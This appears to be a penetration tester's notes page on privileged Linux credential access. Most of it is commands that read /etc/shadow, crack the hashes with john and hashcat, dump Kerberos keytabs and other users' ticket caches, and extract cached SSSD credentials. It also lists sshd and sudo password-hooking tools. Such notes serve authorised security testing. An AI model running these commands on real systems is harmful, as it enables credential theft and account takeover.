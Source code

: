 ```yaml
---
title: Privileged Linux Credential Access
---
```


[[notes/mitre-attack/credential-access]] as root on [[notes/linux/index]].

Also check everything from [[notes/linux/credential-access-user]].

# Login Passwords

Dump password hashes of local users.

~~~ bash
cat /etc/shadow
cat /etc/passwd
~~~

And crack weak hashes with [[notes/tools/john]].

~~~ bash
unshadow ./passwd ./shadow > ./hashes.txt
john --wordlist=./rockyou.txt ./hashes.txt
~~~

# Kerberos

Keytab files contain a principal name and encrypted keys.
They allow a user or script to authenticate to Kerberos without entering a password.
Keytabs are commonly used in cron scripts.

Dump the keytab of the computer account.

~~~ bash
klist -k -Ke
cat /etc/krb5.keytab
find / -type f -iname '*.keytab' -readable ! -path '/dev/*' ! -path '/proc/*' ! -path '/sys/*' -ls 2> /dev/null
~~~

Request a TGT and authenticate with a keytab.

~~~ bash
kinit administrator@CORP.LOCAL -k -t /tmp/administrator.keytab && klist
~~~

Dump Kerberos TGTs of other users.

~~~ bash
ls -la /var/lib/sss/db/ccache_*
grep -ahoP 'KRB5CCNAME=.*?\x00' /proc/*/environ 2> /dev/null | sort -Vu
find / -type f '(' -iname 'krb5cc_*' -or -iname 'ccache_*' ')' -readable ! -path '/dev/*' ! -path '/proc/*' ! -path '/sys/*' -ls 2> /dev/null
~~~

Download `/var/lib/sss/db/cache_*.ldb` files and try to crack the cached credentials.

~~~ bash
tdbdump ./cache_*.ldb | grep -ia passw
hashcat -O -w 3 -a 0 -m 1800 '$6$...' ./rockyou.txt
~~~

Untested tools:

- [tickey](https://github.com/TarlogicSecurity/tickey), extract Kerberos tickets from all users on Linux

# Applications

Untested tools:

- [mimipenguin](https://github.com/huntergregal/mimipenguin), dump passwords from Gnome Keyring, vsftpd, Apache basic auth and sudo
- [3snake](https://github.com/blendin/3snake), hook sshd and sudo to capture plain passwords

References:

- [SSHD Injection and Password Harvesting](http://web.archive.org/web/20230521144411/https://jm33.me/sshd-injection-and-password-harvesting.html)
- [Stealing SSH credentials](http://web.archive.org/web/20201109040134/https://mthbernardes.github.io/persistence/2018/01/10/stealing-ssh-credentials.html)
